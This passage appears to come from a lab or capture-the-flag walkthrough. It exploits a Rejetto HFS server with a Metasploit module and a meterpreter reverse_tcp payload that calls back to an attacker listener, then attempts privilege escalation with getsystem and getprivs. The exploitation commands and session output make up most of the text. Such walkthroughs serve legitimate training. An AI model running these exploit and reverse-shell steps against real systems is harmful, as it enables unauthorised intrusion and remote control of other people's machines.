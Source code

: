 ```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
   Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.21.5       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
meterpreter > sysinfo
    Computer        : VICTIM
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x64/windows
```

### Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

```bash
meterpreter > getuid
    Server username: VICTIM\admin
    
meterpreter > getsystem
    [-] 2001: Operation failed: Access is denied. The following was attempted:
    [-] Named Pipe Impersonation (In Memory/Admin)
    [-] Named Pipe Impersonation (Dropper/Admin)
    [-] Token Duplication (In Memory/Admin)
    [-] Named Pipe Impersonation (RPCSS variant)
    
meterpreter > getprivs

    Enabled Process Privileges
    ==========================
    
    Name
    ----
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege
    SeShutdownPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
```
